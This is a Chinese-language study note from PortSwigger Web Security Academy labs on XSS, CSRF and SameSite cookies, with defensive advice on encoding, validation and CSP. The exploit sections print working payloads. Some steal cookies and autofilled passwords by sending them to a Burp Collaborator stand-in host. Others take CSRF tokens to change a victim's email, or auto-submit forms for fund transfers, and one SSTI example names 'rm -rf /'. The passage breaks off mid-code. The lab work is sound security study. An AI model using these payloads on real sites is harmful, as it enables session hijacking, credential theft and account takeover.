

PortSwigger 网站和 BurpSuite 实验记录，网站地址：https://portswigger.net/  


# XSS(Cross-site script) 跨站脚本攻击


## 概念

XSS 是一种 web 安全漏洞，攻击者篡改用户与存在漏洞的应用之间的交互，执行用户能够进行的操作和访问用户所有数据。主要运作原理是操纵存在漏洞的网站应用向用户返回恶意 JavaScript 代码，当代码在用户浏览器中执行，攻击者就掌握了其与服务器之间的交互。  


XSS 主要有3种类型：

* Reflected XSS
* Stored XSS
* DOM-based XSS


Cheat sheet：https://portswigger.net/web-security/cross-site-scripting/cheat-sheet


## 反射型 XSS

最直接的类型形式。当应用接收到 HTTP 请求，没有经过安全处理，直接将数据包含到 response 中时，就会导致漏洞。

示例：

```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>
```

黑客可以构造出如下内容：

```
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```

当受害者点击上面构造的链接时，就会触发 js 脚本内容。


## 存储型 XSS

又叫持久化 XSS 或者二级 XSS。当应用程序接收到用户提交的 HTTP数据并存储，作为后续流程中的数据进行返回，就属于这种类型。常见的有 BLOG 评论发表、用户昵称展示、订单展示信息。  

示例：

有一个消息广播应用可以提交内容，输入框大致如下：

```
<p>Hello, this is my message!</p>
```

黑客可以提交如下内容：

```
<p><script>/* Bad stuff here... */</script></p>
```

这些内容就会被发送到读取该消息的用户浏览器被执行。


## 基于 DOM 的 XSS

应用通过一些不安全的方式处理用户提交的数据，并将数据写回到 DOM 中。

示例：

应用使用一段 JS 读取用户提交的值，将该值用于生成一段 HTML  

```
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

黑客同样可以构造恶意脚本

```
You searched for: 
```


数据从 Source 流向 Sink，即 URL 流向 eval/innerHTML ，导致恶意代码执行。  

手工测试方法：

* 测试 innerHTML 类 Sink
  * URL 中塞入字符串
  * 打开F12调试面板 Elements 中 Ctrl + F 搜索字符串
  * 观察出现在哪个上下文中，标签或者属性
  * Chrome、FireFox 会自动编码 URL 里的特殊字符，导致 Payload 失效
* 测试 JS 执行类 Sink
  * 打开 F12调试面板，源码 Source 中 Ctrl + Shift + F 全局搜索 location 等关键词
  * 在读取 Source 处打断点
  * 按 F10 单步调试，追踪数据被传递给哪些变量，然后一路追踪直到传递给 eval、setTimeout 等
  * 鼠标悬停查看值，确认 Payload 是否完好抵达 Sink


常见的一些 Sinks ：

* document.write() 
* document.writeln() 
* document.domain 
* element.innerHTML 
* element.outerHTML 
* element.insertAdjacentHTML 
* element.onevent


框架 jQuery 常见 sinks ：

```javascript
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```


## 常见用途

* 冒充用户
* 执行用户有权限执行的动作
* 读取数据
* 捕获用户相关凭证
* 篡改网站数据
* 植入木马到网站


## exploit

三种流行的利用 XSS 的事件类型：

* cookie 窃取，但实战中会受到一些限制：

  * 受害者可能根本没登录

  * 很多应用会用 `HttpOnly` 标记，让 JS 读不到 Cookie

  * Session 可能被绑定了额外因素，比如用户的 IP 地址

  * 没来得及利用，Session 可能就已经超时失效了

  * portswigger 示例，评论区注入脚本获取用户 cookie，这里由于实验限制就将 cookie 以 POST 请求提交评论的形式打印出来，实际会替换为服务器：

    ```javascript
    <script>
    window.onload = function() {
        var csrfEl = document.querySelector('input[name="csrf"]');
        var postIdEl = document.querySelector('input[name="postId"]');
    
        if (!csrfEl || !postIdEl) {
            console.error('csrf 或 postId 没找到:', csrfEl, postIdEl);
            return;
        }
    
        var csrf = csrfEl.value;
        var postId = postIdEl.value;
        var cookieValue = document.cookie;
    
        fetch('/post/comment', {
            method: 'POST',
            headers: {'Content-Type': 'application/x-www-form-urlencoded'},
            body: 'csrf=' + encodeURIComponent(csrf) +
                  '&postId=' + encodeURIComponent(postId) +
                  '&comment=' + encodeURIComponent(cookieValue) +
                  '&name=a&email=b%40c.d&website=http%3A%2F%2Fe.f'
        });
    };
    </script>
    ```

    * 官方简洁版
    
      ```javascript
      <script>
      fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
      method: 'POST',
      mode: 'no-cors',
      body:document.cookie
      });
      </script>
      ```
    
      

* 截获密码

  * 伪造输入框，让用户输入

  * 或者利用当前很多密码管理器会自动填充密码，读取填充的密码并转发

  * portswigger 示例，产生一个表单诱导密码管理器填充，然后将获取的值发送出来，这里和上面示例一样打印到评论区：

    * 主要是将生成的 input 输入框 name、password 的属性设置为 autocomplete，大多数密码管理器通过该属性识别和填充
    * 这里有一行 `form.style.cssText = 'position:absolute;top:-9999px;left:-9999px;';` 注释掉了，作用是视觉上隐藏该输入框，使得密码管理器可以检测到但人眼无法直接看到，但在这个实验中不能获取到就注释掉。

    ```javascript
    <script>
    window.onload = function() {
        // 创建一个视觉上隐藏、但密码管理器能识别的登录表单
        var form = document.createElement('form');
        //form.style.cssText = 'position:absolute;top:-9999px;left:-9999px;';
    
        var userInput = document.createElement('input');
        userInput.setAttribute('type', 'text');
        userInput.setAttribute('name', 'username');
        userInput.setAttribute('autocomplete', 'username');
    
        var passInput = document.createElement('input');
        passInput.setAttribute('type', 'password');
        passInput.setAttribute('name', 'password');
        passInput.setAttribute('autocomplete', 'current-password');
    
        form.appendChild(userInput);
        form.appendChild(passInput);
        document.body.appendChild(form);
    
        // 等待密码管理器自动填充（通常需要短暂延迟）
        setTimeout(function() {
            var username = userInput.value;
            var password = passInput.value;
    
            // 没有填充内容就不提交，避免提交空评论
            if (!username && !password) {
                console.log('未检测到自动填充内容');
                return;
            }
    
            var csrf = document.querySelector('input[name="csrf"]').value;
            var postId = document.querySelector('input[name="postId"]').value;
            var captured = 'username=' + username + '&password=' + password;
    
            fetch('/post/comment', {
                method: 'POST',
                headers: {'Content-Type': 'application/x-www-form-urlencoded'},
                body: 'csrf=' + encodeURIComponent(csrf) +
                      '&postId=' + encodeURIComponent(postId) +
                      '&comment=' + encodeURIComponent(captured) +
                      '&name=a&email=b%40c.d&website=http%3A%2F%2Fe.f'
            });
        }, 2000); // 等待 2 秒，给密码管理器足够的时间完成自动填充
    };
    </script>
    ```

    * 官方的答案更简洁：

    ```javascript
    <input name=username id=username>
    <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
    method:'POST',
    mode: 'no-cors',
    body:username.value+':'+this.value
    });">
    ```

    

* 绕过 CSRF 防护，XSS 攻击可以被利用做很多事情 

  * 发送消息、接收好友请求、修改信息、提交后门代码、转账等

  * 传统 CSRF 漏洞是单向的，攻击者无法看到响应的内容，但结合 XSS 就可以获取到响应内容，从而实现双向通信，发送任意请求，并获取任意响应内容

  * CSRF token 这种防护对 XSS 无效，因为可以读取到响应中的 token 值

  * portswigger 示例，实验博客的评论区存在 XSS 漏洞，通过如下脚本可以修改受害者的邮箱：

    ```javascript
    <script>
    fetch('/my-account', {credentials: 'same-origin'})
        .then(response => response.text())
        .then(data => {
            // 从 /my-account 页面的HTML里，正则提取出 csrf token
            const csrfMatch = data.match(/name="csrf" value="([^"]+)"/);
            if (!csrfMatch) {
                console.error('未能提取到 csrf token');
                return;
            }
            const csrf = csrfMatch[1];
    
            // 用这个 csrf token，提交修改邮箱的请求
            return fetch('/my-account/change-email', {
                method: 'POST',
                headers: {'Content-Type': 'application/x-www-form-urlencoded'},
                credentials: 'same-origin',
                body: 'csrf=' + csrf + '&email=attacker@evil-collaborator.net'
            });
        })
        .then(response => {
            if (response && response.ok) {
                console.log('邮箱修改请求已提交');
            }
        })
        .catch(error => console.error('错误：', error));
    </script>
    ```

    * 官方简洁版：
    
      ```javascript
      <script>
      var req = new XMLHttpRequest();
      req.onload = handleResponse;
      req.open('get','/my-account',true);
      req.send();
      function handleResponse() {
          var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
          var changeReq = new XMLHttpRequest();
          changeReq.open('post', '/my-account/change-email', true);
          changeReq.send('csrf='+token+'&email=test@test.com')
      };
      </script>
      ```
    
      


## XSS contexts

常见的 XSS context 有：

* HTML tag

  * 常用的 HTML tag 是利用 JavaScript 触发，例如：

    ```javascript
    <script>alert(document.domain)</script>
    
    ```

  * portswigger 常见 XSS cheat-sheet 表，包含tags、events ：https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

  * 一些自定义标签、属性

  * SVG 等标签，这些标签使用相对较少，有时 WAF 等设备规则库中没有包含，导致不会全部检测

  * 大小写混合，例如：

    ```html
    
    ```

    

* HTML tag attributes

  * 常见的是利用漏洞中断属性标签，插入 payload，例如：`"><script>alert(document.domain)</script>`
  * 但是现在很多框架或网站对 `<` `>` 这种尖括号进行了屏蔽或者编码，就需要其它手段中断属性，例如 `" autofocus onfocus=alert(document.domain) x="` ，当元素获取到焦点时，会触发一个 onfocus 焦点事件，执行设置的 js 代码 alert()，并添加 x= 去修复后续 HTML 标签

* JavaScript

  * 结束已存在的 script 标签，例如有一段js如下：

    ```
    <script>
    ...
    var input = 'controllable data here';
    ...
    </script>
    ```

    * 将 input 内容替换为：`</script>` 就可以结束 script 段并注入新内容

  * 中断 js 字符串

    * 常见的有

      ```
      '-alert(document.domain)-'
      ';alert(document.domain)//
      ```

    * 有的网站使用转义字符 `\` 将一些特殊字符转义后再交给 js 解析器，但有时实现的不够完善仍会存在漏洞，例如 `';alert(document.domain)//` 这样一个 payload ，可能被转移为 `\';alert(document.domain)//`，此时将 payload 修改为 `\';alert(document.domain)//`，语句就被转义为 `\\';alert(document.domain)//`

    * 在更严格一些的场景中，例如部署了 WAF 等设备，会对输入的字符做限制，`()` 之类的会被限制，此时可以利用 `throw` 关键字，例如 `onerror=alert;throw 1` 中 throw 会将参数 1 传递给 alert 执行，参考 ：https://portswigger.net/research/xss-without-parentheses-and-semi-colons

  * Making use of HTML-encoding

    * 注入点位于 HTML 的属性，浏览器在解析 response 中的 HTML 标签时，会先对属性值做一次 decode ，如果服务端拦截了一些 XSS，此时就可以加以利用，将要注入的内容以 HTML 编码的形式提交以绕过服务端检测
    * 示例：`<a href="#" onclick="... var input='controllable data here'; ...">`
    * 上面示例可以使用 `&apos;-alert(document.domain)-&apos;` 注入内容，`&apos;` 会被转义成单引号(撇号)

  * XSS in JavaScript template literals

    * JS 模板字符串，是一种允许内嵌 JS 表达式的字符串写法

    * 示例：可以通过 `${}` 注入内容

      ```
      document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;
      ```

    * 注入 `${alert(document.domain)}` 

* Client-side template injection

  * 有一些网站使用客户端模板框架，例如 AngularJS，动态生成web页面，如果这些框架存在不安全的实现，也会导致黑客利用模板表达式注入XSS内容
  * AngularJS 模板注入：https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs


## Dangling markup injection

悬浮标记注入是一般常规 XSS 被拦截或禁止后的一种手法，常用于跨域窃取信息。  

假设应用有如下内容，且没有禁止 `>` 和 `"` 符号：

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

注入如下内容：

```html
">
<script>
// Define the URLs for the lab environment and the exploit server.
const academyFrontend = "https://0aa900e304a0eafd80790db70086007a.web-security-academy.net/";
const exploitServer = "https://exploit-0aa800700427eab780c30cc3012d00bf.exploit-server.net/exploit";

// Extract the CSRF token from the URL.
const url = new URL(location);
const csrf = url.searchParams.get('csrf');

// Check if a CSRF token was found in the URL.
if (csrf) {
    // If a CSRF token is present, create dynamic form elements to perform the attack.
    const form = document.createElement('form');
    const email = document.createElement('input');
    const token = document.createElement('input');

    // Set the name and value of the CSRF token input to utilize the extracted token for bypassing security measures.
    token.name = 'csrf';
    token.value = csrf;

    // Configure the new email address intended to replace the user's current email.
    email.name = 'email';
    email.value = 'hacker@evil-user.net';

    // Set the form attributes, append the form to the document, and configure it to automatically submit.
    form.method = 'post';
    form.action = `${academyFrontend}my-account/change-email`;
    form.append(email);
    form.append(token);
    document.documentElement.append(form);
    form.submit();

    // If no CSRF token is present, redirect the browser to a crafted URL that embeds a clickable button designed to expose or generate a CSRF token by making the user trigger a GET request
} else {
    location = `${academyFrontend}my-account?email=blah@blah%22%3E%3Cbutton+class=button%20formaction=${exploitServer}%20formmethod=get%20type=submit%3EClick%20me%3C/button%3E`;
}
</script>
</body>
```


exploit 服务器可以看到通过 hangling markup 携带信息的请求：




## Content Security Policy (CSP)

CSP 这种浏览器安全机制是为了减少 XSS 、dangling markup 、点击劫持之类的攻击。  

服务器返回给浏览器的 response header 中要包括：Content-Security-Policy 这一项。  

* `script-src 'self'`：只允许加载同源站点的脚本
* `script-src https://scripts.normal-website.com`：允许加载指定网站的脚本
* `img-src 'self'`：只允许加载同源站点的图像资源
* `img-src https://images.normal-website.com`：允许加载指定网站的图像资源
* `frame-ancestors 'self'`：只允许同源页面嵌入
* `frame-ancestors 'none'`：完全禁止嵌入
* `frame-ancestors 'self' https://normal-website.com https://*.robust-website.com`：允许嵌入页面的域


Chrome 新出的 `script-src-elem` 可以覆盖旧的 `script-src`，这在一些把输入反射到 report-uri 指令里的网站，可以被利用以注入分号来添加 CSP 指令。  

示例实验：

请求简化如下：

```html
GET /?search=friends HTTP/2
```

响应简化如下：

```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
X-Frame-Options: SAMEORIGIN
Content-Length: 4394

```

修改请求在 uri 中传入 token ：

```html
GET /?search=friends&token=123
```

响应头变为了：

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=123
```

再次修改，将搜索内容替换为 js 并将 token 值替换为 `; script-src-elem 'unsafe-inline'`：

```html
GET /?search=%27%3Cscript%3Ealert(1)%3C/script%3E%27&token=123;script-src-elem%20%27unsafe-inline%27 HTTP/2
```

响应就变为如下内容：

```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=123;script-src-elem 'unsafe-inline'


... omit ...

                   <section class=blog-header>
                        <h1>0 search results for ''<script>alert(1)</script>''</h1>
                        <hr>
                    </section>

... omit ...
```

由于浏览器识别到了新指令 **`script-src-elem 'unsafe-inline'`**。因为这个新指令**覆盖（Override）** 了旧的 `script-src`，所以现在页面上可以执行内联脚本（`<script>alert(1)</script>`）了。


## 预防 XSS 攻击


### 输出编码

编码将要输出到客户端的数据内容。  

在 HTML 上下文中，要转换非白名单的值为 HTML entities，例如：  

* `<` 转换为 `&lt;`
* `>` 转换为 `&gt;`

在 JavaScript 字符串上下文中，要转换非字母及数字的值为 Unicode，例如：  

* `<` 转换为 `\u003c`
* `>` 转换为 `\u003e`

有些时候需要转换两次，且顺序不能错，下面示例中，要先将 onclick 对应字符串转为 js 安全的 Unicode，再转换成 HTML 编码：

```html
<a href="#" onclick="x='This string needs two layers of escaping'">test</a>
```

假设如下内容只做了 HTML 编码：

```php
onclick="func('<?php echo $user_input; ?>')"
```

通过 Payload `\u0027\u0029\u003b alert(1)\u002f\u002f` （包含了 Unicode 编码的单引号、括号、分号）还是可以实现逃逸，这些编码不会被 htmlspecialchars，JS 解析器会还原成 `'; alert(1)//`。


### 验证输入

提交的数据要严格检查

* 如果用户提交了一个 URL 就检查是否以 `http://` 或 `https://`  开头，防止`javascript:` 之类的协议
* 如果提交了数字检查是否是纯数字
* 检查字符串是否只包含字母和数字
* 发现异常直接拒绝，避免尝试清除掉异常字符之类操作，容易出现逻辑漏洞
* 使用白名单而不是黑名单，避免黑客通过一些手段绕过黑名单。


### 允许"安全的" HTML

* 尽量避免让用户提交 HTML 
* 但在一些业务场景下有此类需求，传统做法是使用白名单，只允许部分标签，但由于各个浏览器解析方式的差异、Mutation XSS 之类的漏洞，人工写正则之类的过滤无法做到绝对安全
* Mutation XSS 是指一些场景下浏览器添加或者修改了一些内容，例如输入：`<table><td>...</td></table>`，但浏览器可能帮你补全 `<tbody>`，特殊场景下会被拼接出恶意字符串。

* 使用 DomPurify 之类的框架，但这类框架有时也会出现漏洞，要时常关注修复


### 使用模板引擎

* 现在大多数网站使用模板引擎，例如 Twig、Freemarker，这些模板引擎有各自实现的 Escaping System(消毒系统)，将输入的数据做转义。
* Jinjia、React 之类的框架，默认会开启消毒模式，这样能避免大多数 XSS 。
* 选择框架时一定要研究清楚它们的 escaping feature （消毒机制），有的默认不开启，有的只转义 HTML 不转义 JS。
* 一定要避免在模板中拼接传入字符串，容易引发 SSTI
  * 例如 `render("Hello {{ name }}")` ，传入的是 `name = "<script>"`，模板引擎把 `<` 转成 `<`，输出安全的文本 `Hello &lt;script&gt;`
  * 如果使用的是拼接方式 `render("Hello " + user_input)` 传入 `"<script>"`，直接拼接出 `Hello <script>`，浏览器解析 HTML 并执行脚本（XSS）。
  * 如果输入变为 **`{{ 7*7 }}`** 这种，模板引擎会当成普通字符串转义后输出 `Hello {{ 7*7 }}`，而字符串拼接方式则会导致服务器计算后再输出 `Hello 49`，如果被替换为 `{{ system('rm -rf /') }}` 则导致服务器瘫痪。


### In PHP

PHP 有一个内建的方法 `htmlentities` ，有 3 个参数：

* 输入字符串
* ENT_QUOTES 标志
* 字符集，常用的是 UTF-8
* 示例 `<?php echo htmlentities($input, ENT_QUOTES, 'UTF-8');?>`


但当在处理 JavaScript 字符串上下文时，需要转为 Unicode-escape，但不幸的是 PHP 没有提供这种 API，这里提供一种方式进行转换：

```php
<?php
function jsEscape($str) {
    $output = '';
    $str = str_split($str);
    for($i=0;$i<count($str);$i++) {
        $chrNum = ord($str[$i]);
        $chr = $str[$i];
        if($chrNum === 226) {
            if(isset($str[$i+1]) && ord($str[$i+1]) === 128) {
                if(isset($str[$i+2]) && ord($str[$i+2]) === 168) {
                    $output .= '\u2028';
                    $i += 2;
                    continue;
                }
                if(isset($str[$i+2]) && ord($str[$i+2]) === 169) {
                    $output .= '\u2029';
                    $i += 2;
                    continue;
                }
            }
        }
        switch($chr) {
            case "'":
            case '"':
            case "\n";
            case "\r";
            case "&";
            case "\\";
            case "<":
            case ">":
                $output .= sprintf("\\u%04x", $chrNum);
            break;
            default:
                $output .= $str[$i];
            break;
    }
    }
    return $output;
}
?>
```

调用示例：

```php
<script>x = '<?php echo jsEscape($_GET['x'])?>';</script>
```


### In JavaScript

在 JS 中要输出 HTML 字符串，编码为 HTML 格式：

```apl
function htmlEncode(str){
    return String(str).replace(/[^\w. ]/gi, function(c){
        return '&#'+c.charCodeAt(0)+';';
    });
}
```

使用示例：

```javascript
<script>document.body.innerHTML = htmlEncode(untrustedValue)</script>
```

如果要输出 JavaScript 字符串，编码为 Unicode-escape：

```javascript
function jsEscape(str){
    return String(str).replace(/[^\w. ]/gi, function(c){
        return '\\u'+('0000'+c.charCodeAt(0).toString(16)).slice(-4);
    });
}
```

使用示例：

```javascript
<script>document.write('<script>x="'+jsEscape(untrustedValue)+'";<\/script>')</script>
```


### In jQuery

`$()` 方法在旧版本中检测到字符串以 `#` 开头就会当成 HTML 渲染，存在被利用的漏洞，新版本已做了修复。也可以参考上面 JavaScript 的 jsEscape 方法进行转义避免漏洞。


### Using CSP

* CSP 是最后一道防御，假设前面的防御都失效或者被攻破，如果 CSP 设置的比较严格，会限制攻击者能做的行为。  

  * 在响应头中包含 `Content-Security-Policy` 字段就可以配置 CSP 策略。  

  * 示例策略：`default-src 'self'; script-src 'self'; object-src 'none'; frame-src 'none'; base-uri 'none';`

  * 上面策略限制了只能从本域名加载脚本、图片等资源。  

* 但是如果允许了 CDN 等外部域名，这个域名下所有的 JS、资源文件，都可以被利用来绕过 CSP。 

* 还可以使用 Nonce （一次性随机数）机制，服务器每次随机生成一个超长字符串，将字符串同时放进 CSP 头和 `<script>` 标签中，浏览器对比一致后才运行脚本。这样黑客无法预知该字符串，即使注入脚本也无法执行。但对于反射型 DOM ，CSP 也无法防护，例如：黑客利用 `eval(location.hash)` 执行代码，，`eval` 本身是页面自己的 JS 代码（有 Nonce 许可），所以 CSP 管不了它。


如果一个网站开启了 CSP ，渗透测试时还可以做如下尝试：

1. **检查 `script-src` 是否包含 `unsafe-inline`**：如果包含，直接打传统 XSS（因为内联脚本被允许）。
2. **检查是否包含 `unsafe-eval`**：如果包含，用 `eval` 或 `setTimeout` 字符串执行绕过。
3. **检查白名单域名**：如果白名单里有 `ajax.googleapis.com`，尝试加载 `ajax.googleapis.com/ajax/libs/angularjs/1.0.1/angular.js`（旧版 Angular 有 CSP 绕过漏洞）。
4. **寻找 JSONP 端点**：如果白名单里有 `example.com`，且该域名下有 JSONP 接口（`?callback=func`），你可以构造 `func('alert(1)')` 利用它执行代码（这是经典的 CSP 绕过技巧）。
5. **检测 Nonce 泄露**：如果在页面源码里发现了 `<script nonce="abc">`，且这个 Nonce 被输出到了 HTML 注释或错误信息中，你可以窃取它并构造自己的 `<script nonce="abc">alert(1)</script>`。


# CSRF(Cross-site request forgery) 跨站请求伪造


## 影响及条件

CSRF 是一种 Web 安全漏洞，攻击者诱导用户执行他们无意执行的操作，允许攻击者绕过或部分绕过同源策略 SOP ，该策略是为了防止不同网站之间相互干扰。  


要发起 CSRF 攻击，存在几个关键条件：

* 存在关联动作：攻击者可以诱导用户触发的动作，例如调整权限，修改数据等。
* 基于 cookie 的会话处理：执行该操作需要发起一个或多个 HTTP 请求，并且应用仅依靠会话 Cookie 来识别发起者，系统中没有其他机制用于跟踪会话或者验证用户请求。
* 没有不可预测(unpredictable)的参数：执行的操作中，不包含攻击者无法猜测或确定的参数。例如修改密码需要知道当前密码，如果需要就不存在 CSRF 漏洞。


portswigger 示例，假设某应用存在如下请求用于修改用户邮箱：

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

此请求符合上面描述的条件：

* 存在相关操作，修改邮箱成功后通常可以触发密码重置之类功能，从而控制账户。
* 依赖 Cookie：通过 Cookie 来识别会话，没有其它机制
* 参数可预测：仅存在 cookie、email 地址

通过上面条件，攻击者可以构造如下 HTML 页面：

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();  // 页面加载后自动提交表单
        </script>
    </body>
</html>
```

当受害者被诱骗访问这个页面后，会执行如下动作：

* 向网站发起 HTTP 请求
* 如果受害者已经登录网站，浏览器会自动携带相关 cookie （这里假设未启用 Samesite Cookie 机制）
* 网站将这个请求视作受害者本人操作，按照正常流程处理修改邮箱操作


## 构造和传递 CSRF exploit

典型的方法是通过 email、社交软件传递 http链接，诱骗用户访问恶意构造的钓鱼网站，或者在一些流行的网站评论区、帖子上发表链接等待用户访问。有一些简单的 CSRF expolit 利用 GET 请求可以完全包含在一个单一的 URL 请求中，例如假设一个网站可以通过 GET 请求修改邮箱，一个自包含的攻击可能如下：

```html

```

  

XSS 和 CSRF 的区别：

* XSS 通常允许攻击者在用户浏览器中执行任意 JS 代码
* CSRF 通常是攻击者诱导用户做出并非他们本意的动作
* 通常 XSS 的严重性高于 CSRF
* CSRF token 是否能够预防 XSS 攻击取决于场景
  * 如果网站存在 反射型 XSS 漏洞的功能，设置了 CSRF token 校验，该漏洞会被防护，但其它存在 反射型 XSS 漏洞的功能如果未设置校验 CSRF token 则不会被防护
  * CSRF token 不能防护存储型 XSS 攻击
  * 正确处理 XSS 还是要从 检查输入、输出编码、CSP 等机制入手


## 防御 CSRF 的机制

* CSRF Token ：服务器生成，与客户端共享且唯一的值，客户端提交敏感操作时携带 token，服务器检查是否有正确凭证
* SameSite cookies：请求来自其它网站时，浏览器决定是否携带某网站的 cookie
* Referer-based validation：服务器检查请求来源，即 Header 中的 Referer 字段


## CSRF Token

一个 CSRF token 通常是由服务端应用生成的：唯一、机密、不可预测的一个值，共享给客户端。当客户端触发一个敏感动作，例如提交表单时，应该携带正确的 token，否则服务端拒绝该请求。  

一个常见的方式是在返回的 HTML 的 form 表单中存放 csrf 值并设置为隐藏属性，例如：

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>

```

提交这个表单时的请求大致如下：

```http
POST /my-account/change-email HTTP/1.1
Host: normal-website.com
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
```

当正确实现时，CSRF token 可以帮助防护 CSRF 攻击，攻击者无法预测，就无法在发起的恶意请求中包含该 token。


**常见缺陷**  

* 未在所有请求方法上都做校验，例如常规是 POST 请求做了 token 校验，但更换为 GET 请求则直接通过

* 有些应用程序在 token 缺失时跳过校验，通常是程序实现中仅校验 token 是否存在而不是是否有效

* token 没有和用户 session 关联，会话池中任意 token 都可以通过校验

* 双重提交 Cookie 防御机制：服务端不存储 Token 而是直接返回给客户端 Cookie 中，但是如果网站存在任何可以修改客户端 Cookie 的功能，就能被轻易绕过

  * portswigger 实验示例：

    ```html
    <!-- 通过 search 功能注入 cookie 中 csrf ，然后再将 csrf 和 邮箱 POST 提交 -->
    <html>
        <body>
            <form action="https://0a5f001503af559980c0038200840008.web-security-academy.net/my-account/change-email" method="POST">
                <input type="hidden" name="email" value="pwned@evil-user.net" />
    			<input required type=hidden name=csrf value=XXXXXX>
            </form>
            
        </body>
    </html>
    ```

    


## SameSite cookies

SameSite 是一种浏览器安全机制，用于确定来自其它网站的请求中，何时包含一个 cookie。SameSite Cookie 主要为跨站访问提供部分保护，用于 CSRF、Cross-site leak、CROS 等。  


### Context 

在 SameSite context 中，Site 被定义为： TLD 顶级域（例如 `.com`、`.net` 等）加上一个额外层级，通常也被称为 TLD+1（例如 `example.com`）。URL协议（Scheme）的不同通常也被视为不同站点。还有一类称为 eTLD （顶级有效域）的域名，例如 `.com.cn`、`.co.uk` 这种在实践中通常也被视为同站点，eTLD 域名的计算机制参考**公共后缀列表（Public Suffix List，PSL）**。  


### Site VS Origin

这两个术语的主要区别在于范围(Scope)，它们密切相关但不能互换，混为一谈可能会有安全隐患。  

如果两个 URL 使用完全相同的协议(Scheme)、域名和端口，则被视为相同的 Origin。而 Site 只考虑协议和域名最后一部分(eTLD)，一个跨源请求（Cross-origin）可以是同站（SameSite）的，反过来则不行。  


| **Request from**          | **Request to**                 | **Same-site?**        | **Same-origin?**           |
| ------------------------- | ------------------------------ | --------------------- | -------------------------- |
| `https://example.com`     | `https://example.com`          | Yes                   | Yes                        |
| `https://app.example.com` | `https://intranet.example.com` | Yes                   | No: mismatched domain name |
| `https://example.com`     | `https://example.com:8080`     | Yes                   | No: mismatched port        |
| `https://example.com`     | `https://example.co.uk`        | No: mismatched eTLD   | No: mismatched domain name |
| `https://example.com`     | `http://example.com`           | No: mismatched scheme | No: mismatched scheme      |


### 工作机制

在 SameSite 安全机制出现之前，浏览器会在每个 request 中携带该域名的 Cookie，即使请求是由完全不相关的第三方网站发起。SameSite 的出现是为了让网站开发者和浏览器控制哪些跨站请求（ Cross-Site）可以携带特定的 Cookie。这样可以降低收到 CSRF 攻击的风险，因为 CSRF 类的攻击通常是诱导用户触发一些有害的操作，需要携带受害者的会话 Cookie，如果浏览器限制了携带 Cookie，攻击就会失效。   

从 2021 年起，如果网站没有显式地声明，Chrome 默认采用 Lax 级别的 SameSite 限制。主流浏览器支持这3种 SameSite 级别：

* Strict ：在任何跨站请求中都不会携带 Cookie，这是最安全的选项，但会影响用户体验，例如导航中跳转到一个目标网站也算跨站，Strict 级别下这种跳转不会携带 Cookie，需要重新登录。
* Lax：有条件的鞋带 Cookie，必须同时满足两个条件：GET 请求 + 用户主动触发的顶层导航操作。这样在 POST 请求、后台请求（`<script>`中发起的 `fetch`、`<iframe>`、`` 之类）这些 CSRF 常见的利用方式中都不携带。
* None：和 SameSite 机制出现之前一样。
  * 设置 `SameSite=None` 时必须同时加上 `Secure` 属性，强制要求这个 Cookie 只能在 https 中传输。
  * 除了 Chrome 之外，其它浏览器在未显式设置该属性时，默认是 None 级别。  


### 绕过 SameSite

在一些场景下即使配置了 SameSite 也存在漏洞可以绕过：

* Lax 模式下利用 GET 方法。

  * 如果服务端接口可以处理 GET 请求，就可以通过如下请求绕过

    ```html
    <script>
        document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
    </script>
    ```

    

  * 还有一种 `_method`  参数覆盖请求的方法，有些框架支持“方法覆盖”，读取 `_method` 这个隐藏的参数，虽然浏览器提交使用 GET 方法并携带了 Cookie，但是框架按照 POST 方法处理：

    ```html
    <form action="https://vulnerable-website.com/account/transfer-payment" method="GET">
        <input type="hidden" name="_method" value="POST">
        <input type="hidden" name="recipient" value="hacker">
        <input type="hidden" name="amount" value="1000000">
    </form>
    ```

    

* 找到可以利用的客户端跳转。

  * 有些功能没有使用服务端 301、302 之类的跳转，而是使用了 JS 改变 `location`，攻击者如果找到可以修改替换该 URL，例如 `document.location = '/account/change-email?email=hacker@evil.net'` ，这种请求浏览器认为是内部而不是跨站的，因而会携带所有 Cookie。

  * portswigger 示例，网页存在提交评论后自动返回blog 的 gadget，存在可以修改 URL 跳转的漏洞：

    ```
    <script>
